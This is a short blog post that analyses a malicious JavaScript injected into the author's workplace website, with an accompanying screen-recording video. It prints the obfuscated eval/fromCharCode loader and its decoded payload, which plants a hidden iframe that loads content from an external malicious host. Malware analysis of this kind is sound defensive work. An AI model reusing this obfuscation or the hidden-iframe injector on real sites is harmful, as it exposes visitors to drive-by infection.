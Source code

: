 Title: Decoding found malware
Blurb: Video test of screen recording while de-obfuscating some malware found at work
Tags: JavaScript

Early last year (2013), the main website for work was compromised and (amongst other things) a malicious script was inserted. I was able to grab a copy of the scipt, albeit second hand and will go through how it works.

This is how I received the code (or I initially mucked around with it and left it like this, I can not remember).

    zz='val';
    e=this[fromCharCode["substr"](11)+zz];    
    
    
    
    
        zz='val';
        ss=[];
    
        e=this.fromCharCode(substr(11)+'val');
    
        n=&quot;3.5$3.5$51.5$50$15$19$49$54.5$48.5$57.5$53.5$49.5$54$57$22$50.5$49.5$57$33.5$53$49.5$53.5$49.5$54$57$56.5$32$59.5$41$47.5$50.5$38$47.5$53.5$49.5$19$18.5$48$54.5$49$59.5$18.5$19.5$44.5$23$45.5$19.5$60.5$5.5$3.5$3.5$3.5$51.5$50$56$47.5$53.5$49.5$56$19$19.5$28.5$5.5$3.5$3.5$61.5$15$49.5$53$56.5$49.5$15$60.5$5.5$3.5$3.5$3.5$49$54.5$48.5$57.5$53.5$49.5$54$57$22$58.5$56$51.5$57$49.5$19$16$29$51.5$50$56$47.5$53.5$49.5$15$56.5$56$48.5$29.5$18.5$51$57$57$55$28$22.5$22.5$53.5$55.5$59.5$49.5$54$57.5$22$49$54$56.5$23$25.5$22$48.5$54.5$53.5$22.5$49$22.5$25$23$25$22$55$51$55$30.5$50.5$54.5$29.5$23.5$18.5$15$58.5$51.5$49$57$51$29.5$18.5$23.5$23$18.5$15$51$49.5$51.5$50.5$51$57$29.5$18.5$23.5$23$18.5$15$56.5$57$59.5$53$49.5$29.5$18.5$58$51.5$56.5$51.5$48$51.5$53$51.5$57$59.5$28$51$51.5$49$49$49.5$54$28.5$55$54.5$56.5$51.5$57$51.5$54.5$54$28$47.5$48$56.5$54.5$53$57.5$57$49.5$28.5$53$49.5$50$57$28$23$28.5$57$54.5$55$28$23$28.5$18.5$30$29$22.5$51.5$50$56$47.5$53.5$49.5$30$16$19.5$28.5$5.5$3.5$3.5$61.5$5.5$3.5$3.5$50$57.5$54$48.5$57$51.5$54.5$54$15$51.5$50$56$47.5$53.5$49.5$56$19$19.5$60.5$5.5$3.5$3.5$3.5$58$47.5$56$15$50$15$29.5$15$49$54.5$48.5$57.5$53.5$49.5$54$57$22$48.5$56$49.5$47.5$57$49.5$33.5$53$49.5$53.5$49.5$54$57$19$18.5$51.5$50$56$47.5$53.5$49.5$18.5$19.5$28.5$50$22$56.5$49.5$57$31.5$57$57$56$51.5$48$57.5$57$49.5$19$18.5$56.5$56$48.5$18.5$21$18.5$51$57$57$55$28$22.5$22.5$53.5$55.5$59.5$49.5$54$57.5$22$49$54$56.5$23$25.5$22$48.5$54.5$53.5$22.5$49$22.5$25$23$25$22$55$51$55$30.5$50.5$54.5$29.5$23.5$18.5$19.5$28.5$50$22$56.5$57$59.5$53$49.5$22$58$51.5$56.5$51.5$48$51.5$53$51.5$57$59.5$29.5$18.5$51$51.5$49$49$49.5$54$18.5$28.5$50$22$56.5$57$59.5$53$49.5$22$55$54.5$56.5$51.5$57$51.5$54.5$54$29.5$18.5$47.5$48$56.5$54.5$53$57.5$57$49.5$18.5$28.5$50$22$56.5$57$59.5$53$49.5$22$53$49.5$50$57$29.5$18.5$23$18.5$28.5$50$22$56.5$57$59.5$53$49.5$22$57$54.5$55$29.5$18.5$23$18.5$28.5$50$22$56.5$49.5$57$31.5$57$57$56$51.5$48$57.5$57$49.5$19$18.5$58.5$51.5$49$57$51$18.5$21$18.5$23.5$23$18.5$19.5$28.5$50$22$56.5$49.5$57$31.5$57$57$56$51.5$48$57.5$57$49.5$19$18.5$51$49.5$51.5$50.5$51$57$18.5$21$18.5$23.5$23$18.5$19.5$28.5$5.5$3.5$3.5$3.5$49$54.5$48.5$57.5$53.5$49.5$54$57$22$50.5$49.5$57$33.5$53$49.5$53.5$49.5$54$57$56.5$32$59.5$41$47.5$50.5$38$47.5$53.5$49.5$19$18.5$48$54.5$49$59.5$18.5$19.5$44.5$23$45.5$22$47.5$55$55$49.5$54$49$32.5$51$51.5$53$49$19$50$19.5$28.5$5.5$3.5$3.5$61.5&quot;.split(&quot;$&quot;);
    
        for(i=0; i &lt; 585; i++){
            ss=ss+String.fromCharCode(2*(1+1*n[i]));
        }
    
        e(ss);


The code itself is quite straightforward and relies on some fun obfuscation to (presumably) get around detection.

`51.5$53$49$19$50$19.5$28.5$5.5$3.5$3.5$61.5&quot;.split("$");`


Is simply a "$" delimited list which contains a bunch of numbers of which about half end in .5.


    for(i=0; i &lt; 585; i++){
        ss=ss+String.fromCharCode(2*(1+1*n[i]));
    }

This is the fun bit: for each number in the list, (starting from the inside out) multiply by one (`1*n[i]`) doing nothing and then add 1 (5.5 becomes 6.5) and then multiply that by 2. Multiplying by two removes the .5 and so we are guarenteed to integers which is useful as we then run these through the function fromCharCode (this part is messed up, I think b/c I mucked it up when it was discovered) which converts said integers into their unicode representations. Unicode representations that look (in this case) like code. Code which can be eval()'d (made from the first couple lines via simple concatenation and also mucked up by me). We end up with:

    if (document.getElementsByTagName('body')[0]){
        iframer();
    } else {
        document.write("&lt;iframe src='http://mqyenu.dns05.com/d/404.php?go=1' width='10' height='10' style='visibility:hidden;position:absolute;left:0;top:0;'&gt;&lt;/iframe&gt;");
    }
    function iframer(){
        var f = document.createElement('iframe');f.setAttribute('src','http://mqyenu.dns05.com/d/404.php?go=1');f.style.visibility='hidden';f.style.position='absolute';f.style.left='0';f.style.top='0';f.setAttribute('width','10');f.setAttribute('height','10');
        document.getElementsByTagName('body')[0].appendChild(f);
    }"

Which inserts an invisible IFrame and runs whatever was returned by the (now defunct) page.

Because I wanted to test the screen recording software that comes with Cinnamon I recorded playing around with this. Enjoy.

<video width="640" height="360" controls data-poster="https://assets.themetacity.com/video/foundmalwaredecodeposter.svg">
    <source src="https://assets.themetacity.com/video/foundmalwaredecode.webm" type='video/webm;codecs="vp8, vorbis"' data-fullscreen="true">
    <source src="https://assets.themetacity.com/video/foundmalwaredecode.mp4" type='video/mp4;codec="avc1"' data-fullscreen="true">
</video>